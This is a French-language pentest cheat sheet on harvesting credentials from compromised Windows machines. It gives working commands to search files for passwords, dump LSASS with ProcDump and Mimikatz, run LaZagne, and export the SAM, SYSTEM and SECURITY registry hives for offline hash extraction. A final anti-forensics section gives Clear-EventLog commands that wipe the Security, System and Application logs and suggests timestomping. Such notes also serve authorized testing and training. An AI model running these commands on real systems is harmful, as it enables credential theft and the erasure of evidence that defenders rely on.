

## Emplacements courants

### Fichiers sensibles
*   **Documents utilisateurs** : `C:\Users\<NomUtilisateur>\Documents`, `C:\Users\<NomUtilisateur>\Desktop`
*   **Extensions cibles** : `.txt`, `.ini`, `.cfg`, `.xml`, `.ps1`, `.git`, `.yml`, `.config`
*   **Noms de fichiers** : `passwords.txt`, `credentials.txt`, `config.ini`, `dbcredentials.cfg`, `logins.xml`, `unattend.xml`

### Répertoires et configurations
*   **Partages réseau** : Scripts `.bat`, `.ps1`, `.cmd` stockés dans `C:\Shared` ou partages distants
*   **Active Directory** : `C:\Windows\SYSVOL\sysvol\<Domaine>\Policies` (recherche de **Group Policy Preferences** dans `Groups.xml`)
*   **Applications** : Navigateurs (Chrome, Firefox, Edge), clients FTP/SFTP (WinSCP, FileZilla) dans `C:\Users\<NomUtilisateur>\AppData`
*   **Développement** : `web.config`, `app.config`
*   **KeePass** : Bases de données `.kdbx`

> [!tip]
> Toujours vérifier les fichiers **unattend.xml** en priorité lors d'une compromission initiale.

## Recherche CLI

### Windows Search
Utilisation de la recherche système via `Windows + S` avec les mots-clés : `password`, `credentials`, `dbpassword`, `pwd`, `config`.

### findstr
```cmd
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.ps1 *.yml
```

*   **/S** : Recherche dans les sous-dossiers
*   **/I** : Ignore la casse
*   **/M** : Affiche seulement le nom des fichiers

```cmd
findstr /SIM /C:"dbcredential" C:\Users\<NomUtilisateur>\Documents\*.txt
```

### PowerShell
```powershell
Get-ChildItem -Recurse -Include *.txt,*.ini,*.cfg,*.xml | Select-String -Pattern "password"
```

## Analyse de la mémoire (LSASS dump)

> [!danger]
> L'utilisation de **Mimikatz** est hautement détectable par les solutions EDR/AV.

> [!info]
> **Prérequis :** Privilèges administrateur requis pour **Mimikatz** et accès aux fichiers système.

### Dump manuel via Task Manager
1. Clic droit sur `lsass.exe` dans le Gestionnaire des tâches.
2. Sélectionner **Create dump file**.
3. Le fichier est généré dans `%temp%`.

### Dump via ProcDump (Sysinternals)
```cmd
procdump.exe -ma lsass.exe lsass.dmp
```

### Extraction hors ligne
```bash
# Sur la machine attaquante
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

## Outils tiers

### Outils de post-exploitation automatisés
Ces outils facilitent l'énumération complexe et l'identification de vecteurs d'escalade. Voir **Windows Privilege Escalation**.

*   **BloodHound** : Collecte des données via `SharpHound.exe` pour cartographier les chemins d'attaque AD.
*   **PowerUp** : Script PowerShell pour identifier les services mal configurés ou les permissions faibles.
    ```powershell
    Invoke-AllChecks
    ```

### Outils d'extraction (Living off the Land vs Tiers)
*   **LaZagne** : 
    > [!warning]
    > **LaZagne** peut générer beaucoup de bruit réseau et disque.
    ```cmd
    LaZagne.exe all -vv
    ```
*   **Mimikatz** :
    ```cmd
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
    ```

## Registre et système

### Registre Windows
Recherche dans les ruches :
*   `HKEY_CURRENT_USER\Software\`
*   `HKEY_LOCAL_MACHINE\SOFTWARE\`

### Recherche dans les bases de données SAM/SYSTEM/SECURITY
L'extraction des ruches permet de récupérer les hashs NTLM locaux.
```cmd
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save
```
*Utiliser ensuite `secretsdump.py` (Impacket) sur une machine attaquante pour extraire les hashs.*

### Analyse des fichiers de configuration de services
Vérifier les fichiers de configuration pour des chaînes de connexion codées en dur.
*   **IIS** : `C:\inetpub\wwwroot\web.config`
*   **Services Windows** : Vérifier les chemins d'exécutables via `services.msc` ou :
    ```powershell
    Get-WmiObject win32_service | Select-Object Name, PathName
    ```

## Active Directory

*   **Fichiers unattend.xml** : `C:\Windows\Panther\Unattend.xml`
*   **GPO SYSVOL** : `C:\Windows\SYSVOL\sysvol\<NomDomaine>\Policies\`

Ces techniques s'inscrivent dans une stratégie globale de **Post-Exploitation** et complètent les procédures d'**Active Directory Enumeration** et de **Windows Privilege Escalation**.

## Nettoyage des traces (Anti-Forensics)

Après l'extraction, il est crucial de supprimer les artefacts créés :
1.  **Suppression des dumps** : `del lsass.dmp`, `del sam.save`, `del system.save`.
2.  **Nettoyage des logs** : 
    ```powershell
    Clear-EventLog -LogName Security
    Clear-EventLog -LogName System
    Clear-EventLog -LogName Application
    ```
3.  **Horodatage (Timestomping)** : Utiliser des outils pour modifier les dates de création des fichiers créés afin de masquer l'activité.

### Commandes système
```cmd
net user
qwinsta
```